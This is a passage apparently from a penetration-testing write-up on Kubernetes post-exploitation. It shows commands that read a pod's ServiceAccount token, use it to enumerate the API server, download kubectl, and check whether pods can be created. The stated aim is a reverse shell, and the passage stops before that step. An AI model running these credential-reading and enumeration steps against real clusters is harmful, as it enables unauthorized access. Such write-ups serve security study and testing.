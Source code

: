 If there is a need, we can decode the token from https://jwt.io/!

So if we are able to gain access to the ServiceAccount Token, we can perform some authenticated Kubernetes API enumeration.

```bash
APISERVER=https://kubernetes.default.svc
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
TOKEN=$(cat ${SERVICEACCOUNT}/token)
CACERT=${SERVICEACCOUNT}/ca.crt

curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/version
curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/apis/apps/v1
```

Our target here is to take advantage of ServiceAccount for creating a new Pod which enables us to run some commands within to get a reverse shell on our attacking system from the pod. But, before doing that, we need to make sure if we have enough permissions on the serviceAccount for doing that:

**First download the `kubectl` binary on the current pod**

```
export PATH=/tmp:$PATH; cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.24.12/bin/linux/amd64/kubectl; chmod 555 kubectl
```

**Second, find out the node IP via the `/etc/resolv.conf`**

```bash
cat /etc/resolv.conf
```

```
search default.svc.cluster.local svc.cluster.local cluster.local vd3wk3pfuj5unnyfkbt5fjw0bg.bx.internal.cloudapp.net
nameserver 10.0.0.10
options ndots:5
```

The local node for the nameserver `10.0.0.10` is always the `x.x.x.1` address, so in that case `10.0.0.1`

**Third, query the Node API if the service account on the pod has sufficient permissions to create a pod**

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.0.0.1/ auth can-i create pods
```

```
no
```

So, here we don't have enough permissions and a result we cannot create a new pod from within this pod by calling the API. If we had enough permissions by getting simply 'yes' from above query, we could use following to create a pod and at the same listening on the port 4244 to get a reverse shell:
